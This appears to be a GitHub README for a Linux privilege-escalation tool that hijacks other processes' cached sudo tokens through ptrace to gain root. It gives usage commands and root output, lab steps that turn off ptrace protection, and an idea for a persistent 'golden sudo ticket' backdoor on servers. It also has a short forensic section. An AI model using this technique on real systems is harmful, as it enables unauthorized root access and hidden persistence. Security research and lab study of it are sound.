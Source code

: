 # [Linux] Privilege Escalation by injecting process posseding sudo tokens.

#### Inject process that have valid sudo token and activate our own sudo token.

## How to use against vulnerable system
PS: read requirements!!
```sh
$ sudo whatever
[sudo] password for user:    # Press <ctrl>+c since you don't have the password. # This creates an invalid sudo tokens.
$ ./exploit.sh # This activates our sudo token.
.... wait 3 seconds
$ sudo -i # no password required :)
# id
uid=0(root) gid=0(root) groups=0(root)
```

## Requirements
* Ptrace fully enabled (cat /proc/sys/kernel/yama/ptrace_scope == 0).
* A currently living process that has a valid sudo token with the same uid.

```
The default password timeout is 15 minutes. So if you use sudo twice in 15 minutes (900 seconds), you will not be asked to type the user’s password again.
```

## Usecase

This is far from a generic privesc without requirements but it works, for instance if you have a RCE and don't have the user password but the user uses sudo then you can easily get root by stealing his token.

## How to simulate in lab?

```sh
# echo 0 > /proc/sys/kernel/yama/ptrace_scope
# # Don't worry this is persistent accross reboot
```
Start two terminals:
* one to type sudo and enter the right password (example: sudo ls).
* one to start the exploit as described above.

## Going further

### Forensic, DFIR ?

Printing to be improved but each process sudo attempt has one entry in /var/run/sudo/ts/[username]
```sh
./read_sudo_token_forensic  < /var/run/sudo/ts/user
version, flags, uid, sid, starttime_sec, starttime_nsec
2, 0, 0, 0, 0, 0
2, 0, 1001, 1145, 188, 660000000
2, 0, 1001, 24878, 7461, 490000000
2, 0, 1001, 24578, 6974, 10000000
```

### Arbitrary write to root

If you have an abitrary write you can create a sudo token for you current process to gain root code execution.
checkout './write_sudo_token $$ > /var/run/sudo/ts/[username]' in extra_tools,

### Golden sudo tickets

A very good way to create a secret root backdoor on servers that rarely reboots.
Not done yet but checkout './write_sudo_token $$' in ./extra_tools

### Why

I was looking for a way to steal dead process sudo token, but it doesn't look possible because they are associated by ((process start time and process session id) or (tty start time and tty session id)), and everything can be impressionnated except the start times which are relative to system boot time.

----
By [@chaignc][] [#HexpressoTeam][hexpresso].


[hexpresso]:     https://hexpresso.github.io
[@chaignc]:    https://twitter.com/chaignc
